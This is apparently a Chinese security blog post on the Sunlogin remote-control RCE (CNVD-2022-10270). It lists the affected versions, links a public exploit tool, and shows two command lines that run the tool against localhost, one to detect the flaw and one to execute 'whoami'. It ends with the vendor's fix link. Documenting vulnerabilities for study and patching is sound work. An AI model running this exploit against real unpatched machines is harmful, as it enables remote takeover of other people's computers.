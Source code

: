 ```yaml
---
title: 向日葵RCE（CNVD-2022-10270）
comments: true
tags:
  - cve
  - rce
categories: cve
keywords: 向日葵RCE
top_img: 'https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/about-1.png'
cover: 'https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/about-1.png'
abbrlink: 5047f5b7
date: 2022-02-16 23:02:53
---
```


## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

向日葵是一款免费的，集远程控制电脑手机、远程桌面连接、远程开机、远程管理、支持内网穿透的一体化远程控制管理工具软件。上海贝锐信息科技股份有限公司向日葵个人版for Windows存在命令执行漏洞，攻击者可利用该漏洞获取服务器控制权。

## 风险等级

高危

## 影响版本

11.1.1
10.3.0.27372
11.0.0.33162

## 资产确定

SunloginClient_10.3.0.27372（目前版本已经修复）

## EXP

[https://github.com/TRYblog/sunlogin_rce_](https://github.com/TRYblog/sunlogin_rce_)

## 漏洞检测

```
xrkrce.exe -h 127.0.0.1
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/xrkrce02.png)

## 漏洞利用

```
xrkrce.exe -h 127.0.0.1 -t rce -p 60360 -c "whoami"
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/xrkrce01.png)

## 修复建议

厂商已发布了漏洞修复程序，请及时关注更新：
https://sunlogin.oray.com/
